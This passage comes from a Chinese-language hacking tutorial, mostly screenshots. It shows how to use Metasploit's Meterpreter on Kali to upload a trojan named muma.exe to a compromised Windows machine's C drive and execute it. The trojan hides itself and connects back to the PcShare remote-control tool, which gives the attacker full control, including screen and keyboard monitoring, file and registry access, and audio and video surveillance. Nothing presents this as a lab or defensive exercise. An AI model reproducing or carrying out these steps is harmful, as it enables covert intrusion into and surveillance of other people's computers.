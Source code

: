 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB86RMcGFia2531IDZpth1IAmsVZ8tLb8uMicIUaOmhzB4zqLfN0YfJEzQ/640?wx_fmt=png&from=appmsg "")  
  
先退出shelleixt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBKlS9mXJ1UpBmma6PXaK86amsfEASQo5qfIoH5zpR5TU1dHZWvGeIzQ/640?wx_fmt=png&from=appmsg "")  
  
接着将生成的 muma.exe 文件上传到 kali 主机上，比如上传到了/root 目录下面。最后将上传到 kali 上的 muma.exe 程序文件上传到目标主机上，上传到目标的 c 盘根目录中。  
```
upload /root/muma.exe C:

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB2cVWRs9sdHUlVQn5Ra4jFrYCA3Dvia871VswtGXrXf7K0qA33PY20hQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBibC9nluN2c4v52BibVXVmiclVRxG9aU4HZ1icmMWiaEibmbmuvSkhgBpnniag/640?wx_fmt=png&from=appmsg "")  
接下来通过 kali 的 msf，远程执行一下这个文件，提示如下进程建立，表示运行成功了。  
```
execute -f c:\\muma.exe

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBG9VE1Nz0zn4U0zHq4gib0Uibibjl3vrcy2otZtEYmwXaMLwm3zW25GT0w/640?wx_fmt=png&from=appmsg "")  
然后再去被攻击机看一下，这个文件运行成功之后，这个文件就消失了，其实是隐藏到某个驱动当中去了。然后看一下我们自己本机的 pcshare 工具窗口，等待一下之后，就看到有内容产生了。  
  
注意：一定要先关闭自己本机的防火墙，不然 muma.exe 程序没办法连接上你的 pcshare 工具。  
  
这就拿到了目标主机的所有操作，这里我们可以进行屏幕监控、保存屏幕录像、文件管理、进程管理、键盘管控(这个功能没试过)、注册表管理、音视频监控、窗口管理等等  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBoQgmicia210VWciaSeUsBiayx7AibL0BVLg8uI8kRN69CgT9LicDluPAjZyg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBZYxyjDpaI11OGWaVfK6eAVKYKqL3TibibD39b9PmE1LhpPibVe4uGskLg/640?wx_fmt=png&from=appmsg "")  
## 成功上线  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB6CyUtgYbSsic2Vc4w4hWTibLBCOibz5ibKbEanyJovKAz6VN5dwDuvHGGA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBkpa83lbCEu4hHShIxxqay2cOlEhjFb8eUQtMJS4vylUchpjPbneYiaw/640?wx_fmt=png&from=appmsg "")  
  
  
  
